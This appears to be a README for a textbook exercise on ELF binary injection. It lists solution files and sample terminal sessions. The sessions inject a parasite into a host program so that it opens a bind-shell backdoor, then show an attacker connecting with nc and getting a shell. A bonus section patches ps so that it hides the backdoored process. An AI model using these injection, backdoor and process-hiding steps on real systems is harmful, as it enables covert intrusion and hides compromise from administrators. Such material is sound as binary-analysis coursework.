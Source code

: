 # An ELF Parasite

Write your own ELF parasite and use elfinject to inject it into a program
of your choice. See whether you can make the parasite fork off a child
process that opens a backdoor. Bonus points if you can create a modiﬁed
copy of ps that doesn’t show the parasite process in the process listing.

## Solution

victim.c (acts as the host binary)\
elf-parasite.s (acts as a bind shell)

## Bonus Solution

ps-parasite.s (acts as the process hider)

## Sample Session

Victim machine:

```
$ gcc -o victim victim.c
$ nasm -f bin -o elf-parasite.bin elf-parasite.s
$ ./elfinject victim elf-parasite.bin ".parasite" 0x800000 0
$ ./victim
I'm a victim!
$ netstat -ap tcp | grep victim
tcp        0      0 *:19484    *:*    LISTEN    10662/victim 
```

Attacker machine:

```
$ nc -nv 10.0.0.33 19484
found 0 associations
found 1 connections:
     1: flags=82<CONNECTED,PREFERRED>
        outif en0
        src 10.0.0.37 port 61034
        dst 10.0.0.33 port 19484
        rank info not available
        TCP aux info available

Connection to 10.0.0.33 port 19484 [tcp/*] succeeded!
whoami
admin
exit
```

## Sample Session (Bonus)

```
$ nasm -f bin -o ps-parasite.bin ps-parasite.s
$ python3 ps-patch.py # this patches calls to readproc/readproctab2
[*] Copying /bin/ps to [...]/ps-modified
[*] Applying readproc patch at offset 0x2cf9
[*] Applying readproctab2 patch at offset 0x2909
[*] Done applying patches
$ ./elfinject ps-modified ps-parasite.bin ".parasite" 0x800000 -1
$ ./victim
I'm a victim!
$ netstat -ap tcp | grep victim
tcp        0      0 *:19484    *:*    LISTEN    10662/victim 
$ ./ps-modified # the victim process isn't visible
[...]
$ ./ps-modified aux # the victim process isn't visible
[...]
$ ./ps-modified -e # the victim process isn't visible
[...]
$ ./ps-modified -ef # the victim process isn't visible
[...]
$ ./ps-modified f (invokes readproctab2) # the victim process isn't visible
[...]
